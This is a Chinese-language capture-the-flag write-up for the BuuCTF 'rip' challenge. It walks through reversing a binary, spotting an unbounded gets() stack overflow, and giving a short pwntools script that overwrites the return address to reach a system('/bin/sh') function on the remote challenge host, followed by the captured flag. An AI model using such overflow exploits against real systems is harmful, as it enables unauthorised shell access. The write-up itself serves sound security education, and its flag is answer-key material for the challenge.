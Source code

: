 ```yaml
---
tags:
  - BuuCTF
  - 新手
---
```


# rip

## 前置工作

下载附件，用 IDA 64 进行逆向，找到 `main()` 函数的反汇编伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

发现高危函数 `gets()`，没有任何的限制，全部存储进 `s[15]` 中，可造成栈溢出

接下来按下 Shift + F12 寻找 `/bin/sh` 字符串，再按下 Ctrl + X 进入引用的函数，得到以下内容

```
; Attributes: bp-based frame

public fun
fun proc near
; __unwind {
push    rbp
mov     rbp, rsp
lea     rdi, command    ; "/bin/sh"
call    _system
nop
pop     rbp
retn
; } // starts at 401186
fun endp
```

找到函数开始的地址 `0x401186`，命为 `fun_addr`

## 编写 Exp

先用 0xF（数组的大小）+ 8（dup 的大小）个垃圾数据填饱栈，然后将函数 `fun()` 的地址打包发送过去（`pack(x, 64)` 与 `p64()` 作用相同），这种情况在本地是可以运行的，但是远程连接就会失效，就需要给 `fun_addr` +1 来取得堆栈平衡

```python
from pwn import *

r = remote("node4.buuoj.cn", 29901)
fun_addr = 0x401186
payload = b"A"*(0xF + 8) + pack(fun_addr + 1, 64)
r.sendline(payload)
r.interactive()
```

## 攻入靶机

运行攻击代码后，输入 `cat flag`，最终取得的结果为 `flag{dd7de097-3853-4e0e-bc09-d46e2541c68c}`